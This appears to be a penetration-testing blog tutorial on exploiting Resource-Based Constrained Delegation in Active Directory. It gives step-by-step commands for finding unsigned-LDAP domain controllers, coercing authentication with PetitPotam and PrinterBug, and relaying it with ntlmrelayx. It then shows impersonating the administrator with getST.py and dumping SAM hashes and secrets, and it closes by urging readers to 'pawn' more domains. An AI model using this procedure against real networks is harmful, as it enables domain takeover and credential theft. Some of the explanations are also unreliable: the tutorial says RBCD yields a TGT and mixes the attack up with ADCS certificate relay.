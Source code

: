 
# Resource-Based Constrained Delegation (RBCD) Exploitation

## Initial Engagement

### Introduction

 In this article, we'll delve into the world of Resource-Based Constrained Delegation (RBCD), a Windows-specific protocol that can be exploited for unauthorized access and understand how  to perform RBCD to gain elevated privileges or even domain administrator rights.

### What is RBCD?

RBCD is a Kerberos-based protocol that allows a service on a domain-joined computer to obtain a ticket-granting ticket (TGT) for a specified user account. This process is constrained by the permissions of the service, so the TGT obtained is limited in its scope and can't be used for unauthorized access. (We'll see about that)

### Why Should You Care?

 Understanding how to exploit RBCD vulnerabilities to gain unauthorized access to sensitive resources can add more to your toolkit. Understanding how constrain and coercion works you'll be better equipped to identify and mitigate (or exploit) these risks, ensuring the security of your organization's infrastructure.

## The How-To Guide

RBDC exploitation needs an specific set off conditions. I'll add a list of those conditions and we'll be going through it along the article so don't worry if you don't get something right away just keep reading.

- A domain controller with ldap signing disabled or not enforced
- A victim server with Web-based Distributed Authoring and Versioning (Webdav) enabled
- A domain user account with Service Principal Name (SPN) and delegation permissions 

That's good! Enough talk lets get in to the exploitation.
### Step 1: Identify Potential Targets

To exploit an RBCD vulnerability, you need to find a target that has not implemented proper security measures. we are looking for domain controllers with ldap signing disabled NetExec is our friend here.

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M ldap-checker
```

after we get our vulnerable domain controller we need to identify a machine to attack this is going to be our target this machine has to have webdav enabled and be vulnerable to two authentication coercion we are going to look for MS-EFSRPC (PetitPotam) or MS-RPRN (PrinterBug).

```
nxc smb <IP/Scope> -u <username> -p <password> -d <domain.com> -M coerce_plus
```

Now we got our targets, a vulnerable domain controller to perform the relay and a vulnerable machine to perform the coercion.
### Step 2: Setup our machine

Before proceeding with the exploit you'll need an account with SPN, if you're lucky enough your account already have an SPN if you don't have one there are a couple of ways to get one.

1. **Modify DNS record**
2. **Create a Machine account**

##### Modify DNS Record 

To modify the DNS record we can use a tool called `dnstool.py` that is part of the `krbrelayx` repository by the incredible Dirkjanm.

```
dnstool.py -u domain.com\username -p <password> -a add -t A -r <machinename> -d your_ip dns_server_ip
```

Let break this command a little:

- -a add : Action to take on the dns server
- -t A : Type of record 
- -r : Record to add (the name you want to use)
- -d : your attacker machine ip followed by the dns server ip

if this succeeds congrats you can continue with the relay if you don't have permissions maybe you can create a machine account.

##### Create a machine account

First of all we need to check if we have permissions to create machine accounts lets pull nxc again and check for the domain controller machine account quota (MAQ).

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M maq
```

if we have a maq above 0 we can attemp to create a machine account all machine accounts have SPN as default

to create a machine account we are going to use a tool from the Impacket Repo called `addcomputer.py`.

```
addcomputer.py -method LDAPS -computer-name 'COMPUTERNAME$' -computer-pass 'Password' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'
```

- `-dc-host` : hostname of the domain controller.
- `-domain-netbios`: the domain's name where the new computer account will be added. 
- `-computer-name`: the name of the new computer account. 
- `-computer-pass`: password of the new computer account. 
- `-method`: the method to add the new computer account. It can be:
	- SAMR to add the account via SMB 
	- LDAPS. 
	(This is important the default method is SAMR and with SAMR the account will be created without SPNs)

if this succeeds congrats you can continue with the relay.
### Step 3: Configure and Launch the RBCD Exploit

RBCD is a relay attack we are going to relay the authentication from one machine to our own using coercion then we are going to relay that authentication attempt to a ADCS and get the certificate then we use that certificate to impersonate the victim account and get the kerberos ticket(TGT).

![Relay.png](https://zer0xfr.github.io/images/relay.png)
 
Lets start by setting up the relay. We are going to use another Impacket tool called `ntlmrelayx.py`.

```
./ntlmrelayx.py -smb2support -t ldaps://dc.domain.com --http-port 8080 --delegate-access --escalate-user SPNusername --no-dump --no-acl --no-da --remove-mic
```

Let `ntlmrelayx.py` running and attempt authentication. we have two ways for the coercion: 

- MS-EFSRPC (PetitPotam)  
- MS-RPRN (PrinterBug)

###### MS-EFSRPC (PetitPotam)
```
./PetitPotam.py -d episourcein.episource.com -u 'user' -p 'password' SPNUsername@8080/path victim.domain.com
```

###### MS-RPRN (PrinterBug)

```
./printerbug.py domain.com/user:password@victim.domain.com SPNUsername@8080/path
```

Then we are going to request the Impersonated Service Ticket for this we are going to use another impacket tool called `getSt.py`.

```
./getST.py -spn cifs/victim.domain.com -impersonate 'administrator' domain.com/SPNusername:'password' -dc-ip <domain_ip> 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping... 
[*] Getting TGT for user
[*] Impersonating ldap.
```

Then we just have one step left retrieve the ticket stored in cache

```
export KRB5CCNAME=/yourpath/domainAdmin.ccache
```
### Step 4: Profit

Now you can use this kerberos credentials to do whatever you want enumerate, dump creds, etc ...

```
nxc smb victim.domain.com --use-kcache --sam 
```

```
./secretsdump.py -k -no-pass victim.domain.com
```

## Conclusion

Hope this guide help you get some Domain Accounts, By understanding how you can misuse RBCD vulnerabilities, you'll be better equipped to pawn more things. Keep Hacking!

